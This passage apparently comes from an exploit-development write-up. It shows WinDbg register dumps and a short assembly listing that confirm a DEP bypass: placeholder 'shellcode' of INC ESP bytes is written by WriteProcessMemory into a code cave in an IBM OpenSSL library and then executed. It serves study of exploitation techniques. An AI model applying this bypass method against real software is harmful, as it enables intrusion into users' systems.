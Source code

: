 the contents here show that our fake shellcode data (`0x44` bytes) was copied from the stack into the code cave.

using the `INC ESP` instructions (`0x44` opcode), we can prove that DEP was bypassed.

```shell
0:085> r
eax=00000001 ebx=05fbf4d8 ecx=00000000 edx=77251670 esi=42424242 edi=00669360
eip=745f82a4 esp=110ee2f0 ebp=41414141 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
KERNELBASE!WriteProcessMemory+0x74:
745f82a4 c21400 ret 14h
0:085> p
eax=00000001 ebx=05fbf4d8 ecx=00000000 edx=77251670 esi=42424242 edi=00669360
eip=031f2c04 esp=110ee308 ebp=41414141 iopl=0 nv up ei pl nz na po nc cs=001b
ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
libeay32IBM019!N98E_bn_sub_words+0x107c:
031f2c04 44 inc esp
0:085> p
eax=00000001 ebx=05fbf4d8 ecx=00000000 edx=77251670 esi=42424242 edi=00669360
eip=031f2c05 esp=110ee309 ebp=41414141 iopl=0 nv up ei pl nz na pe nc cs=001b
ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
libeay32IBM019!N98E_bn_sub_words+0x107d:
031f2c05 44 inc esp
0:085> p
eax=00000001 ebx=05fbf4d8 ecx=00000000 edx=77251670 esi=42424242 edi=00669360
eip=031f2c06 esp=110ee30a ebp=41414141 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
libeay32IBM019!N98E_bn_sub_words+0x107e:
031f2c06 44 inc esp
```

`EIP` for the `WriteProcessMemory` return is `745f82a4`, which corresponds to `KERNELBASE!WriteProcessMemory+0x74`, and `ESP` is `110ee2f0`. the return value is `EAX=1`, meaning it's a success.

on the code cave execution side, the `EIP` was `031f2c04` and the `ESP` was `110ee308`. the execution proof also showed that each instruction was executed successfully.

```asm
    031f2c04: 44       inc esp
    031f2c05: 44       inc esp
    031f2c06: 44       inc esp
```
